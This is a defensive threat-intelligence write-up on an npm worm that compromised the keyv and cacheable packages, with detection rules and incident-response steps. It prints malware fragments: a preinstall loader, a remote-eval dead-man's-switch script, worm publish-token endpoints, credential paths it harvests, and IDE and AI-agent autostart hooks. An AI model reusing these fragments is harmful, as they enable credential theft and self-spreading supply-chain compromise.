

# Keyv/Cacheable npm Worm: a Third-Wave Shai-Hulud Supply-Chain Compromise with a Bun Loader, IDE Autostart Hooks and a Token-Revocation Dead-Man's Switch

## TL;DR

On 2026-08-04 a self-propagating npm worm — a third-wave Shai-Hulud (Mini Shai-Hulud family) variant — hijacked the widely used `keyv` and `cacheable` package families after the maintainer account "Jaredwray" was compromised, then used stolen npm tokens and OIDC trusted publishing to republish trojanized versions across at least nine organizations. Socket, SafeDep, Aikido and Wiz tracked it the same day; registry-backed counts reached roughly 1,684 poisoned versions across ~420 package names (Aikido counted more names, fewer versions), and researchers observed 546 public GitHub repositories created that day carrying the description `Shai-Hulud: Here We Go Again`. Each malicious release adds a `package.json` `preinstall` hook (`node setup.mjs`) that downloads a standalone Bun 1.3.13 runtime and runs a ~728 KB Bun bundle which harvests cloud, CI and developer credentials, republishes more packages, plants `.claude`/`.vscode` autostart hooks, and installs a host-level token-revocation dead-man's switch. It matters today because these are foundational transitive dependencies (a common chain is `eslint` → `file-entry-cache` → `flat-cache` → `keyv`), the poisoned `keyv@6.0.0` shipped with valid OIDC/SLSA provenance, and the dead-man's switch means naive credential rotation can trigger attacker code.

## Attribution and confidence

Primary cluster: **Shai-Hulud (keyv/cacheable wave)**, an **unattributed** operator. Family link to the Shai-Hulud / Mini Shai-Hulud self-propagating npm worm lineage is **medium** confidence; the specific operator is **low** confidence (no self-identifying markers were recovered from the sample, and neither the initial-access path to the maintainer account nor a named actor is known).

Aliases and framing: Socket tracks it as the "keyv and cacheable compromise"; SafeDep and Phoenix label it a "Mini Shai-Hulud" variant; Aikido places the August activity in the "Shai-Hulud family"; The Hacker News headlines it as the "Keyv-linked npm worm." The `Shai-Hulud: Here We Go Again` repository description is the campaign's own self-branding.

| Overlap signal | Detail | Assessment |
|---|---|---|
| Tradecraft | TruffleHog-style regex credential sweep; enumerate maintainer packages and republish via stolen npm tokens + OIDC; stage stolen data into attacker GitHub repos | Matches prior Shai-Hulud reporting (medium confidence family link) |
| Novel this wave | Downloads a standalone Bun runtime to run a bundled second stage; modular dispatcher with GitHub + DNS channels; `.claude`/`.vscode` autostart hooks; host-level dead-man's switch | Not documented in earlier Shai-Hulud reporting |
| Cross-ecosystem echo | Semgrep documented the same `setup.mjs`, Bun 1.3.13 download and `.claude`/`.vscode` hooks in an April 2026 compromise of the `lightning` PyPI package | Suggests a shared toolkit, not a confirmed single operator |

Genealogy with previous repo cases. This is a distinct, later wave from the repo's earlier Shai-Hulud coverage: the 2026-04-29 Bitwarden "Third Coming" and the 2026-05-14 / 2026-05-21 TeamPCP Mini Shai-Hulud mega-campaigns were TeamPCP-attributed and centred on GitHub Actions OIDC hijack and SLSA provenance forgery; this keyv/cacheable wave is unattributed and introduces the Bun loader, IDE-hook persistence and the token-revocation switch. It differs from the 2026-07-30 Joyfill npm compromise (an on-import RAT with a blockchain dead-drop C2) in delivery (a `preinstall` hook and worm self-propagation rather than an import-time implant) while sharing the "abuse a legitimate runtime" idea seen in the 2026-08-01 SourTrade case (Bun as a living-off-the-land runtime). No CVE is in scope — this is a maintainer/package compromise, not a software vulnerability.

## Kill chain — summary table

| Stage | MITRE | Detail |
|---|---|---|
| Maintainer account compromise | T1078, T1195.002 | npm account "Jaredwray" (owns `keyv` + `cacheable`) hijacked; force-push to `main`, delete `v6.0.0` tag, commit adds `setup.mjs`/`Math_Symbol.js` |
| Malicious publish + install | T1195.002, T1204.003 | Trojanized `keyv@6.0.0` (and the `cacheable` burst) published; `package.json` `preinstall = node setup.mjs` runs on install |
| Stage-1 Bun loader | T1059.007, T1105 | `setup.mjs` downloads standalone Bun 1.3.13 to `bun-dl-*`, executes Stage 2 under `bun` |
| Stage-2 payload | T1027, T1140 | ~728 KB Bun bundle; polymorphic basE91 strings; modules `[collector] [dispatcher] [provenance] [publish]` |
| Credential collection | T1552.005, T1552.001, T1528 | Cloud IMDS IAM creds, Vault, Kubernetes SA token, npm + GitHub tokens; TruffleHog-style regex sweep; reads GH Actions runner memory |
| Self-propagation (worm) | T1195.002, T1550.001, T1608 | `whoami` → search maintainer packages → mint OIDC publish token → repackage tarball with the hook → `PUT` to registry |
| Provenance minting | T1606, T1195.002 | DSSE attestation + Fulcio cert + Rekor entry so republished versions carry fresh, verifiable SLSA provenance |
| Persistence | T1546.016, T1543.001, T1543.002 | `.claude/settings.json` SessionStart + `.vscode/tasks.json` folderOpen hooks; `gh-token-monitor` LaunchAgent/systemd dead-man's switch |
| Exfiltration | T1567.001, T1573 | GitHubSender creates repos + GraphQL commits; DomainSender resolves via DNS; AES-256-GCM ciphertext only |



The diagram's left lane is the developer/CI host and the npm registry — the install, the two loader stages, credential collection, the worm republish, persistence and impact. The right lane is attacker infrastructure and the trusted-publishing abuse — the compromised maintainer account, the Bun runtime host, npm OIDC, sigstore provenance minting, the GitHub exfil repos and the DNS-based DomainSender. The durable detection anchors are behavioural and host-side: `node setup.mjs` spawning a `bun` from a `bun-dl-*` temp dir, writes to the `.claude`/`.vscode` hooks and the `gh-token-monitor` artifacts, install-time `node`/`bun` reaching IMDS or the npm OIDC token exchange, and an unexpected republish burst from your own npm identity.

## Stage-by-stage detail

### 1. Maintainer account compromise (T1078, T1195.002)

The evidence indicates the npm maintainer account **Jaredwray** — which owns both `keyv` and the `cacheable`, `cacheable-request`, `flat-cache`, `file-entry-cache` and `cache-manager` families — was compromised and used to publish across both package trees. The `jaredwray/keyv` source repository shows the attacker retained account and CI control in real time: force pushes to `main`, repeated deletion of the `v6.0.0` tag, and a commit titled "add setup.mjs and Math_Symbol.js to all @keyv/* packages."

```
# The commit that planted the .claude and .vscode hooks:
#   d8c850c7800e  (green GitHub-verified badge; author field = github-actions[bot])
# The verified badge proves the signature was valid, NOT who controlled the credential.
```

### 2. Malicious publish and install (T1195.002, T1204.003)

`keyv@6.0.0` (published 09:35 UTC) is the first confirmed malicious release; the `cacheable` family followed in a burst between 10:09 and 10:14 UTC (`cacheable@2.5.1`, `flat-cache@6.1.24`, `file-entry-cache@11.1.6`, `cacheable-request@13.0.20`, `cache-manager@7.2.10`, and several scoped `@cacheable/*` versions). `@thiennq/docs-viewer@1.6.2` (09:38 UTC) shows the worm reached at least one account beyond these families. The compromise is delivered entirely through the npm lifecycle: the package's compiled `dist/` output is byte-identical to the clean `6.0.0-rc.1` build, so the package behaves normally after install while the host is already compromised.

```json
"files": [ "dist", "LICENSE", "setup.mjs", "Math_Symbol.js" ],
"scripts": { "preinstall": "node setup.mjs" }
```

### 3. Stage-1 Bun loader (setup.mjs) (T1059.007, T1105)

`setup.mjs` is a lightly obfuscated Node script. If `bun` is not already present it downloads a platform-matched standalone Bun 1.3.13 over HTTPS (with no checksum or signature verification), unzips it (system `unzip`, PowerShell `Expand-Archive`, or a hand-written pure-JS ZIP fallback), and executes the second stage under `bun` — which can bypass controls that watch only Node processes. It removes its `bun-dl-*` temp directory after execution to limit on-disk artifacts.

```
const V = "1.3.13";
const E = "Math_Symbol.js";  // .claude/.vscode variant uses "math_init.js" for the identical payload
const url = "https://github.com/oven-sh/bun/releases/download/bun-v" + V + "/" + target + ".zip";
execFileSync(bunBinary, [payloadPath], { stdio: "inherit", cwd: D });
```

### 4. Stage-2 payload — the Bun bundle (T1027, T1140)

`Math_Symbol.js` (`math_init.js` in the repo variant) is a ~727,680-byte Bun bundle. Strings are protected with polymorphic basE91 encoding: one shared numeric opcode table drives dozens of per-scope alphabets decoded lazily, so recovering them requires reimplementing basE91 and brute-forcing each alphabet. Internal module log tags identify the components: `[collector]`, `[dispatcher]`, `[provenance]`, `[publish]`.

### 5. Credential collection (T1552.005, T1552.001, T1528)

The `[collector]` queries the cloud instance metadata service (`169.254.169.254` for IAM security credentials; the ECS task endpoint `169.254.170.2`), reads AWS credential chains and Secrets Manager across regions, and targets GCP service-account keys and Azure client secrets by regex/file. It reads HashiCorp Vault tokens (`/home/runner/.vault-token`, `/run/secrets/VAULT_TOKEN`), the Kubernetes service-account token (`/var/run/secrets/kubernetes.io/serviceaccount/token`), and npm tokens via the registry whoami/token endpoints. It enumerates GitHub Actions org/repo secret metadata via the API and recovers secret values from environment variables, files and **process/runner memory**, plus a TruffleHog-style regex sweep for generic keys, bearer tokens and private-key blocks.

### 6. Self-propagation — the worm (T1195.002, T1550.001, T1608)

```
https://registry.npmjs.org/-/whoami                                  # confirm stolen identity
registry.npmjs.org/-/v1/search?text=maintainer:<name>                # discover targets
https://registry.npmjs.org/-/npm/v1/oidc/token/exchange/package/     # mint a publish credential
```

For each discovered package the `[publish]` module downloads the tarball, injects the same `preinstall` hook and payload files, recomputes the `integrity`/`shasum` fields, bumps the version, and issues a `PUT` to the registry. SafeDep observed the worm moving between organizations every two to seven minutes and completing the cross-org burst in roughly half an hour.

### 7. Provenance minting (T1606, T1195.002)

The `[provenance]` module builds DSSE attestation envelopes, requests Fulcio signing certificates and submits Rekor transparency-log entries, so republished versions can ship freshly minted, verifiable sigstore provenance rather than inheriting it. Separately — and confirmed directly — `keyv@6.0.0` itself shipped with a **passing** attestation because the legitimate release workflow built already-trojanized source. Provenance attests build integrity, not source integrity.

### 8. Persistence — IDE hooks and a dead-man's switch (T1546.016, T1543.001, T1543.002)

The source repository plants autostart hooks: `.claude/settings.json` (a `SessionStart` hook) and `.vscode/tasks.json` (an `Environment Setup` task with `runOn: folderOpen`), both of which execute the loader when a developer or an AI coding agent trusts/opens the cloned repository — no `npm install` required (VS Code and Claude Code both apply workspace trust, so this is gated on the user trusting the workspace). The payload also installs a host-level dead-man's switch:

```bash
# Watcher polls the GitHub API with the stolen token every 60s; on revocation it fires:
if [[ "$HTTP_STATUS" =~ ^40[0-9]$ ]]; then
  eval "$HANDLER"          # remote-supplied handler string, triggered by token revocation/rotation
  rm -f "$STARTED_FILE"; exit 0
fi
# State:   ~/.config/gh-token-monitor/{token,handler,started_at}  (mode 600)
# Watcher: ~/.local/bin/gh-token-monitor.sh   Logs: /tmp/gh-token-monitor.{out,err}.log
# macOS:   ~/Library/LaunchAgents/com.user.gh-token-monitor.plist  (RunAtLoad, KeepAlive)
# Linux:   ~/.config/systemd/user/gh-token-monitor.service ("GitHub Token Validity Monitor") + loginctl enable-linger
# Also self-clears after a 24h TTL.
```

### 9. Exfiltration (T1567.001, T1573)

Exfiltration avoids a fixed C2. A `GitHubSender` creates repositories via `POST /user/repos` and commits stolen findings using the GraphQL `createCommitOnBranch` mutation; a `DomainSender` resolves destinations via DNS and health-checks them before sending. Data is AES-256-GCM encrypted (12-byte IV, 16-byte tag) under an operator public key stored as an encrypted constant and decrypted at runtime, so GitHub and DNS destinations receive only ciphertext. Researchers counted 546 public GitHub repos created on 2026-08-04 described `Shai-Hulud: Here We Go Again` with a `results/` directory — staging artifacts, not 546 confirmed victims.

## Detection strategy

### Telemetry that matters

- **Process creation** with command line and parent (Sysmon EID 1, Defender `DeviceProcessEvents`, auditd `execve`): the `node setup.mjs` → downloaded `bun` chain, and `bun` running from a `bun-dl-*` temp path.
- **File creation** (Sysmon EID 11, Defender `DeviceFileEvents`, macOS ESF): `setup.mjs`/`Math_Symbol.js`/`math_init.js`, the `.claude`/`.vscode` hooks, and the `gh-token-monitor` artifacts.
- **Network with process attribution** (Sysmon EID 3, Defender `DeviceNetworkEvents`, proxy/egress logs): install-time `node`/`bun` reaching `169.254.169.254`/`169.254.170.2`, the npm OIDC token-exchange path, and the Bun 1.3.13 release URL.
- **Registry/VCS audit**: npm publish history for your maintainer accounts (unexpected version bumps that add a `preinstall`), and GitHub audit logs for new-repo creation.

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | [sigma/01_proc_creation_npm_preinstall_setupmjs_to_bun.yml](./sigma/01_proc_creation_npm_preinstall_setupmjs_to_bun.yml) | `preinstall` running `node setup.mjs`, and `bun` executed from a `bun-dl-*`/temp path |
| Sigma | [sigma/02_file_event_deadmans_switch_and_repo_autostart_hooks.yml](./sigma/02_file_event_deadmans_switch_and_repo_autostart_hooks.yml) | Writes to `gh-token-monitor` artifacts, `.claude`/`.vscode` hooks, and the payload filenames |
| Sigma | [sigma/03_network_connection_install_time_imds_and_npm_oidc.yml](./sigma/03_network_connection_install_time_imds_and_npm_oidc.yml) | Install-time `node`/`bun` reaching cloud IMDS or the npm OIDC token exchange |
| KQL | [kql/01_defender_preinstall_setupmjs_bun_chain.kql](./kql/01_defender_preinstall_setupmjs_bun_chain.kql) | `DeviceProcessEvents` loader chain |
| KQL | [kql/02_defender_deadmans_switch_and_repo_hooks.kql](./kql/02_defender_deadmans_switch_and_repo_hooks.kql) | `DeviceFileEvents` persistence artifacts |
| KQL | [kql/03_defender_install_time_imds_oidc_bun_download.kql](./kql/03_defender_install_time_imds_oidc_bun_download.kql) | `DeviceNetworkEvents` IMDS / npm OIDC / Bun download |
| YARA | [yara/shaihulud_keyv_loader_and_deadman_switch.yar](./yara/shaihulud_keyv_loader_and_deadman_switch.yar) | Stage-1 `setup.mjs` loader; the `gh-token-monitor` watcher script |
| Suricata | [suricata/shaihulud_keyv_supplychain.rules](./suricata/shaihulud_keyv_supplychain.rules) | npm OIDC/token/whoami paths, Bun download, GitHub exfil repo + GraphQL commit (TLS-inspection/proxy) |

### Threat hunting hypotheses

- **H1** — an `npm install` spawned `node setup.mjs` then a downloaded Bun runtime: [hunts/peak_h1_preinstall_setupmjs_to_bun.md](./hunts/peak_h1_preinstall_setupmjs_to_bun.md).
- **H2** — a token-revocation dead-man's switch or a repo autostart hook was planted: [hunts/peak_h2_deadmans_switch_and_repo_hooks.md](./hunts/peak_h2_deadmans_switch_and_repo_hooks.md).
- **H3** — install-time credential access to IMDS/npm, then a package-republish burst: [hunts/peak_h3_installtime_credaccess_and_republish.md](./hunts/peak_h3_installtime_credaccess_and_republish.md).

## Incident response playbook

### First 60 minutes (triage)

1. Freeze the blast radius: pause CI pipelines that run install scripts and stop new `npm install`/`npm ci` on affected projects.
2. Identify exposure by exact resolved version, not by tag: diff lockfiles against the affected-package list (do not trust `latest`, which often re-resolved to a malicious version).
3. On any host that installed and ran scripts for an affected version, treat it as credential-exposed.
4. **Before rotating anything**, hunt for and remove the dead-man's switch (H2) — revocation is its trigger.
5. Preserve evidence: the loader/payload files, the `.claude`/`.vscode` hooks, the `gh-token-monitor` state, and process/network telemetry for the install window.

### Artifacts to collect

| Artifact | Path | Tool | Why |
|---|---|---|---|
| Stage-1 loader | `setup.mjs` in the package or `.claude`/`.vscode` | EDR / file copy | Confirms the compromise; hash against iocs.csv |
| Stage-2 payload | `Math_Symbol.js` / `math_init.js` | EDR / file copy | Confirms Stage 2; SHA-256 anchor |
| Dead-man's switch | `~/.local/bin/gh-token-monitor.sh`, `~/.config/gh-token-monitor/` | Shell / EDR | Must be removed before credential rotation |
| Persistence units | `~/Library/LaunchAgents/com.user.gh-token-monitor.plist`, `~/.config/systemd/user/gh-token-monitor.service` | `launchctl` / `systemctl --user` | Removes autostart of the watcher |
| Repo hooks | `.claude/settings.json`, `.vscode/tasks.json` | Git / editor | The no-install execution path |
| npm publish history | registry account audit | npm / registry logs | Detect republished versions from your identity |

### IR queries and commands

```bash
# Remove the switch FIRST (revocation triggers eval of a remote handler):
launchctl unload ~/Library/LaunchAgents/com.user.gh-token-monitor.plist 2>/dev/null
rm -f ~/Library/LaunchAgents/com.user.gh-token-monitor.plist
systemctl --user disable --now gh-token-monitor.service 2>/dev/null; loginctl disable-linger "$USER"
rm -f ~/.local/bin/gh-token-monitor.sh ~/.config/systemd/user/gh-token-monitor.service
rm -rf ~/.config/gh-token-monitor /tmp/gh-token-monitor.out.log /tmp/gh-token-monitor.err.log
# Then remove the implant and hooks:
find . -path ./node_modules -prune -o \( -name setup.mjs -o -name Math_Symbol.js -o -name math_init.js \) -print
rm -rf .claude .vscode/tasks.json   # after confirming they are the malicious variants
# Exposure check by resolved version (npm):
npm ls keyv cacheable cacheable-request flat-cache file-entry-cache cache-manager --all 2>/dev/null
```

```kql
// Defender: hosts that ran the loader chain in the last 14 days
DeviceProcessEvents
| where Timestamp > ago(14d)
| where (FileName in~ ("node.exe","node") and ProcessCommandLine has "setup.mjs")
    or (FileName in~ ("bun.exe","bun") and ProcessCommandLine has_any ("bun-dl-","Math_Symbol.js","math_init.js"))
| summarize FirstSeen=min(Timestamp), LastSeen=max(Timestamp) by DeviceName, AccountName
```

### Containment, eradication, recovery

Pin each affected package to the version immediately prior to the malicious one and rebuild lockfiles by exact version and integrity hash — do not allow caret/tilde ranges or `npm update` to pull a fresh release while the maintainer account remains suspect; where practical, block the whole `keyv`, `@keyv` and `cacheable` scope at the registry proxy. Only **after** the switch and implant are removed, **revoke** (not merely rotate) npm and GitHub tokens, then rotate AWS/GCP/Azure keys, Vault and Kubernetes tokens, and CI org/repo secrets reachable from the host. Audit npm accounts for unexpected versions published that day and GitHub for newly created repositories. **What NOT to do:** do not rotate credentials before removing the dead-man's switch; do not rely on a namespace-level blocklist alone (tags changed too fast, some sibling versions are clean); do not treat a passing SLSA attestation as proof the source was safe.

### Recovery validation

Confirm no `gh-token-monitor` LaunchAgent/systemd unit or watcher remains, no `.claude`/`.vscode` malicious hooks remain in any checked-out copy, lockfiles resolve only to known-clean versions by integrity hash, revoked tokens return 401 and no new tokens were minted, and no unexpected package versions or GitHub repositories exist under your identities.

## IOCs

Top indicators (full list in [iocs.csv](./iocs.csv)). Types follow the canonical vocabulary.

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| sha256 | `54dc7ea54a1317cca0e890a2770630cf7fa6c97813e0cb9d2caa93012b350668` | `setup.mjs` (npm tarball loader) | high | Socket |
| sha256 | `fd3ca4007b225fdf8de7af4345a19179d5efa8c4bb9205f88cda806e5684b1eb` | `setup.mjs` (.claude/.vscode variant) | high | Socket |
| sha256 | `9fc2570b7cef51c1b8df116d144d11ff4096357be7d2c4c6367cfc2509cf1bcc` | `Math_Symbol.js` / `math_init.js` payload | high | Socket |
| string | `keyv@6.0.0` | First confirmed malicious release | high | Socket |
| string | `cache-manager@7.2.10` | Malicious version (clean prior 7.2.9) | high | Socket |
| string | `node setup.mjs` | Malicious `preinstall` command | high | Socket |
| string | `Shai-Hulud: Here We Go Again` | Description of 546 exfil GitHub repos | high | The Hacker News |
| path | `~/.local/bin/gh-token-monitor.sh` | Dead-man's-switch watcher | high | Socket |
| string | `com.user.gh-token-monitor` | LaunchAgent label / switch id | high | Socket |
| url | `github.com/oven-sh/bun/releases/download/bun-v1.3.13/` | Bun runtime fetch (legitimate host abused) | medium | Socket |
| url | `registry.npmjs.org/-/npm/v1/oidc/token/exchange/package/` | OIDC publish-token mint (worm) | high | Socket |
| ipv4 | `169.254.169.254` | Cloud IMDS IAM creds (behavioral, not blockable) | high | Socket |

No CVE is in scope: this is a maintainer/package compromise, not a software vulnerability, so `generate_kev_overlay.py` produces no `kev.md` for this case. Absence from CISA KEV is expected here and is **not** evidence of low risk — a single compromised CI token gave the worm a large blast radius across common dependency trees.

## Secondary findings

- **Provenance attests build integrity, not source integrity.** The npm + sigstore pipeline did exactly what it is designed to do and produced a signed, verifiable SLSA attestation for `keyv@6.0.0` — because the source it built from was already trojanized. A green "verified" badge and a passing attestation prove the build/signing path, not that the code is safe or who controlled the credential.
- **The dead-man's switch inverts incident response.** A watcher that runs `eval` on a remote-supplied handler the moment its stolen token returns an HTTP 4xx means the standard first move — rotate/revoke credentials — is itself the trigger. Responders must find and remove the switch before touching any token, a reversal of the usual playbook.
- **IDE and AI-agent workspace trust is now an execution path.** `.claude/settings.json` SessionStart hooks and `.vscode/tasks.json` folderOpen tasks execute on *opening a cloned repo*, with no `npm install` and unaffected by `--ignore-scripts` or npm 12's default script blocking — reaching developers and autonomous coding agents that clone source.

## Pedagogical anchors

- When the malicious code lives in a lifecycle hook and the shipped library is byte-identical to the clean build, the package "works" while the host is already compromised — install-time behaviour, not library behaviour, is where detection has to live.
- A legitimate runtime downloaded on demand (Bun here, as with SourTrade) is living-off-the-land at the toolchain layer: the second stage runs under an interpreter your Node-focused controls may not watch, so anchor on the *download-then-execute-from-temp* shape, not on a process name.
- Signed provenance raises the bar for tampering-after-build but says nothing about source integrity; treat attestations as one signal, and gate publishes on source review and human approval, especially for OIDC trusted publishing.
- Order of operations matters in IR: a credential-revocation dead-man's switch means "rotate everything now" can detonate attacker code — enumerate and remove persistence first.
- Blast radius follows dependency depth, not direct installs: foundational transitive packages (`eslint` → `file-entry-cache` → `flat-cache` → `keyv`) mean most victims never named the package, so hunt by resolved lockfile version, not by what you think you installed.

## What's in this folder

| File | Purpose | Link |
|---|---|---|
| README.md | This write-up (15 sections). | [README.md](./README.md) |
| kill_chain.svg | Two-lane kill-chain diagram (template A, supply-chain accent). | [kill_chain.svg](./kill_chain.svg) |
| iocs.csv | Full indicator list (hashes, package versions, paths, endpoints, notes). | [iocs.csv](./iocs.csv) |
| sigma/01_proc_creation_npm_preinstall_setupmjs_to_bun.yml | Loader execution chain (process_creation). | [link](./sigma/01_proc_creation_npm_preinstall_setupmjs_to_bun.yml) |
| sigma/02_file_event_deadmans_switch_and_repo_autostart_hooks.yml | Persistence artifacts (file_event). | [link](./sigma/02_file_event_deadmans_switch_and_repo_autostart_hooks.yml) |
| sigma/03_network_connection_install_time_imds_and_npm_oidc.yml | Install-time IMDS / npm OIDC (network_connection). | [link](./sigma/03_network_connection_install_time_imds_and_npm_oidc.yml) |
| kql/01_defender_preinstall_setupmjs_bun_chain.kql | Defender loader-chain hunt. | [link](./kql/01_defender_preinstall_setupmjs_bun_chain.kql) |
| kql/02_defender_deadmans_switch_and_repo_hooks.kql | Defender persistence-file hunt. | [link](./kql/02_defender_deadmans_switch_and_repo_hooks.kql) |
| kql/03_defender_install_time_imds_oidc_bun_download.kql | Defender network hunt (IMDS / OIDC / Bun). | [link](./kql/03_defender_install_time_imds_oidc_bun_download.kql) |
| yara/shaihulud_keyv_loader_and_deadman_switch.yar | YARA for the `setup.mjs` loader and the watcher script. | [link](./yara/shaihulud_keyv_loader_and_deadman_switch.yar) |
| suricata/shaihulud_keyv_supplychain.rules | Suricata for npm/GitHub/Bun request surfaces (TLS-inspection/proxy). | [link](./suricata/shaihulud_keyv_supplychain.rules) |
| hunts/peak_h1_preinstall_setupmjs_to_bun.md | PEAK hunt H1. | [link](./hunts/peak_h1_preinstall_setupmjs_to_bun.md) |
| hunts/peak_h2_deadmans_switch_and_repo_hooks.md | PEAK hunt H2. | [link](./hunts/peak_h2_deadmans_switch_and_repo_hooks.md) |
| hunts/peak_h3_installtime_credaccess_and_republish.md | PEAK hunt H3. | [link](./hunts/peak_h3_installtime_credaccess_and_republish.md) |

## Sources

- [Socket — Popular npm Packages in the keyv and Cacheable Namespaces Compromised in Active Supply Chain Attack](https://socket.dev/blog/popular-npm-packages-in-the-keyv-and-cacheable-namespaces-compromised-in-active-supply-chain)
- [The Hacker News — Keyv-Linked npm Worm Poisons Hundreds of Packages, Plants Claude Code and VS Code Hooks](https://thehackernews.com/2026/08/keyv-linked-npm-worm-poisons-hundreds.html)
- [SafeDep — keyv npm Supply Chain Compromise](https://safedep.io/keyv-npm-supply-chain-compromise/)
- [Wiz — keyv and cacheable npm Package Hijacked in Supply Chain Attack](https://www.wiz.io/blog/keyv-and-cacheable-npm-supply-chain-attack)
- [Aikido — Keyv and friends compromised in npm supply chain attack](https://www.aikido.dev/blog/keyv-and-friends-compromised-in-npm-supply-chain-attack)
- [Snyk — Inside the keyv npm Supply Chain Compromise](https://snyk.io/blog/inside-keyv-npm-compromise-preinstall-malware-trusted-provenance-ide-hooks/)
- [Datadog Security Labs — Worm compromises hundreds of popular npm packages](https://securitylabs.datadoghq.com/articles/npm-worm-compromises-popular-npm-packages/)
- [Phoenix Security — Mini Shai-Hulud keyv/cacheable npm Compromise](https://phoenix.security/mini-shai-hulud-keyv-cacheable-npm-supply-chain-worm/)
